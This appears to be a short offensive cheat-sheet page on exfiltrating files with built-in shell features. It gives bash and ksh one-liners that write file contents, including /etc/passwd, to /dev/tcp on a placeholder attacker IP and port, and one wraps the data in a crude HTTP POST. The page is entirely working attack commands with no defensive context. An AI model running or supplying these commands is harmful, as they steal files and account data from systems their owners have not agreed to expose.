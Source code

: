 # Builtin Shell Scripting

## 01 - Bash

Send files.

```
$ bash -c 'echo -e "POST / HTTP/0.9\n\n$(</path/to/file.txt)" > /dev/tcp/<attacker_IP>/<PORT>'

$ cat /etc/passwd > /dev/tcp/<attacker_IP>/<attacker_PORT>
```

## 02 - Ksh

```
$ ksh -c 'cat /path/to/file.txt > /dev/tcp/<attacker_IP>/<PORT>'
```